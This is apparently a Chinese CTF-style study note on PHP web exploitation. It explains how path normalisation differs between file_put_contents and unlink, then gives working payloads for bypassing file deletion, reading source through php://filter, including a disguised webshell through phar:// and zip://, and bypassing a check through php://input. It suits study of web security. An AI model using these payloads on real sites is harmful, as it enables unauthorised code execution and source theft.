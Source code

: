 ```python
        t.join()
```



除此之外，这个题的关键就看 file_put_contents 和后面的 unlink、file_exists 有什么区别。

查看源码能发现，PHP 读取、写入文件，都会调用 php_stream_open_wrapper_ex 来打开流，而判断文件存在、重命名、删除文件等操作则无需打开文件流。
再跟一跟 php_stream_open_wrapper_ex 会发现，php 最后会使用 tsrm_realpath() 将 filename 标准化成一个绝对路径。而文件删除等操作则不会，这就是二者的区别。

![](<https://images.zsxq.com/FgrtzZGHdtl2tOVHcTcPfQjoifqk?e=1906272000&token=kIxbL07-8jAj8w1n4s9zv64FuZZNEATmlU_Vm6zD:nOCUP5n_a3yeCy9N0nUXKpX_g2U=>)

所以，如果传入的是一个不存在的路径，写入前会处理掉“../”等相对路径，所以不会出错；
判断、删除的时候因为不会处理，所以就会出现“No such file or directory”的错误。

```
linux
xxxxx/../t.php
t.php/. 

windows
test.php:test test.ph< 来绕过文件删除
user[name]=2.php:test&user[info]=2y 会生成 2.php
user[name]=2.ph<&user[info]=2y 会写入内容
```



### 伪协议

> 之前学习`phar`协议反序列化时fuzz过一遍PHP函数，发现了PHP的一个特点：**只要是传filename的地方，基本都可以传协议流**。而`file_put_contents`的第一个参数显然就是传`filename`的地方，那么试试可不可以利用php伪协议？

```
php://filter – 对本地磁盘文件进行读写
file=php://filter/convert.base64-encode/resource=flag.php
file=php://filter/read=convert.base64-encode/resource=index.php
file=php://filter/write=convert.base64-decode/resource=index.php


phar:// '/'
发现有一个文件上传功能，无法绕过，仅能上传jpg后缀的文件。与此同时，无法进行文件包含截断。allow_url_include=on 的状态下，就可以考虑phar伪协议绕过。
写一个shell.php文件，里面包含一句话木马。然后，压缩成xxx.zip。然后改名为xxx.jpg进行上传。
最后使用phar进行包含 这里的路径为上传的 jpg 文件在服务器的路径

/index.php?id=phar://路径/xxx.jpg/shell

zip:// '#' 与 phar 类似
把1.php文件压缩成 1.zip，再把后缀改成 png，上传上去
?file=zip://1.png%231.php
// ?file=zip://1.zip%231.php

php://input 伪协议需要服务器支持，同时要求 allow_url_include = on（有这条件直接远程文件包含）
可以访问请求的原始数据的只读流，可以读取到来自POST的原始数据。
但当 enctype=”multipart/form-data” 的时候 php://input 是无效的。
<?php
$user = $_GET["user"];
$file = $_GET["file"];
if(isset($user)&&(file_get_contents($user,'r')==="the user is admin")){
    echo "hello admin!<br>";
    include($file); //class.php
}else{
    echo "you are not admin ! ";
}
?>
此时 user=php://input，然后 post 一下 the user is admin

```